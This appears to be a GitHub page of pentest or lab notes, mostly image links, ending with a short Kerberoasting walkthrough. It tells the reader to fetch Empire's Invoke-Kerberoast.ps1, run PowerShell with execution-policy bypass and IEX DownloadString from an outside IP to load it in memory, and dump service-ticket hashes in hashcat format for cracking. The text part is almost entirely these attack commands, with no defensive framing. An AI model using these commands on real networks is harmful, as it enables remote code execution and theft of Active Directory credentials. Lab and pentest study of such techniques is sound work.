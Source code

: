 ![image](https://github.com/user-attachments/assets/51305beb-5cee-40a8-b95d-5772deda6701)
![image](https://github.com/user-attachments/assets/2f31e786-307a-4b4c-a48c-45be231e94fc)
![image](https://github.com/user-attachments/assets/74abcda2-fc49-4a15-9794-62846da2c92b)
![image](https://github.com/user-attachments/assets/6c914723-c869-4f76-ad40-fd1d648c06f1)
![image](https://github.com/user-attachments/assets/e53ed01c-91fc-4517-8046-8444433dc375)
![image](https://github.com/user-attachments/assets/8f727c3a-c650-4e26-9d72-e7e020d33ede)
![image](https://github.com/user-attachments/assets/2602a5f0-f473-4ada-8235-8d42da9a31e7)
![image](https://github.com/user-attachments/assets/1710a697-8039-466d-862c-53bc29400d7b)
![image](https://github.com/user-attachments/assets/b9b1853b-e1ad-43e1-8423-d7b8e9af7864)
![image](https://github.com/user-attachments/assets/f6988213-c004-4228-90ae-4e763b0073ac)
![image](https://github.com/user-attachments/assets/14f1c62c-0de4-401a-9d00-bad247279b3f)
![image](https://github.com/user-attachments/assets/de5fa436-8396-4e47-b2e4-f580bc7d689a)
![image](https://github.com/user-attachments/assets/46e64634-dde3-43b4-9722-64ad2f5696fb)
![image](https://github.com/user-attachments/assets/81b10f25-6809-4f64-b0d9-71bf899a7cf8)
![image](https://github.com/user-attachments/assets/a0536f97-5a81-4745-883a-2b6c3cb2c8eb)
![image](https://github.com/user-attachments/assets/9c384af2-7761-4d65-858b-df438bdc1807)
![image](https://github.com/user-attachments/assets/3dec7fde-ba51-421b-b8cd-73629cf6bf7a)
![image](https://github.com/user-attachments/assets/2c8a3579-1425-478e-ac6d-3ce2c48b9a7d)
![image](https://github.com/user-attachments/assets/01e68259-f8fa-4437-a368-a76222c0c452)
![image](https://github.com/user-attachments/assets/efcb8d48-3f07-46eb-a5fc-ee2fe9a6ebd3)
![image](https://github.com/user-attachments/assets/39f2286a-30c1-408d-b927-37741d3f1e83)

Another way to get SPN TGS ticket: 

1. download Kerberoast.ps1 (https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1)

2. upload to writable path (PS C:\Windows\System32\spool\drivers\color> powershell -ep bypass;
IEX(New-Object Net.WebClient).DownloadString('https://10.4.95.140/Kerberoast.ps1') 

3. Invoke-Kerberoast -OutputFormat hashcat ​ |fl
